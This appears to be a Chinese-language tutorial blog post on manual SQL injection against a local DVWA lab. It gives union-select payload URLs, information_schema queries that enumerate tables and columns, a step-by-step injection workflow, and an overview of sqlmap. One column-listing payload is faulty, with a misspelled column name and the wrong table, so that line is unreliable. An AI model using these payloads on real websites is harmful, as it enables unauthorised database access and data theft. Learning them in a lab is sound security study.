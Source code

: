 ```
http://localhost/school/url.php?id=-1' union select database(),1,1--+
```

![image-20220427135427096](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182155851-566003692.png)

如果这个只能返回一行的数据，多行会报错

```mysql
SELECT GROUP_CONCAT(table_name) FROM information_schema.TABLES WHERE TABLE_SCHEMA='dvwa';#dvwa的这个库里的有多少个表，然后用逗号去拼接起来
```

把多个值变为一个值,用逗号去分隔

![image-20220427140020745](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182156280-1608192751.png)

```
http://localhost/school/url.php?id=-1' union select 1,1,GROUP_CONCAT(table_name) FROM information_schema.TABLES WHERE TABLE_SCHEMA='dvwa'--+
```

然后用这个语句就可以查出来了

![image-20220427140504836](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182156801-515059957.png)



```
http://localhost/school/url.php?id=-1' union select 1,1,GROUP_CONCAT(coluumn_name) FROM information_schema.TABLES where TABLE_SCHEMA='dvwa' and TABLE NAME='users';--+  #查看的是dvwa的这个库里的users这个表里的全部类名类名这个字段名的column_name
```

![image-20220427141320686](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182157505-1364292328.png)

##### SQL注入的完整流程

- 判断是否可以注入
- 获得数据库名
- 获得表名
- 获得列名
- 获得数据

### sqlmap注入自动化工具

Introduction();--

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

| 类型                | 描述                         |
| ------------------- | ---------------------------- |
| boolean-based blind | 基于Boolean的盲注            |
| time-based blind    | 基于时间的盲注               |
| error-based         | 基于报错                     |
| UNION query-based   | 基于联合查询                 |
| stacked queruies    | 基于多条SQL语句（堆叠注入）  |
| out-of-band(OOB)    | 非应用内通信注入，比如DNSLog |
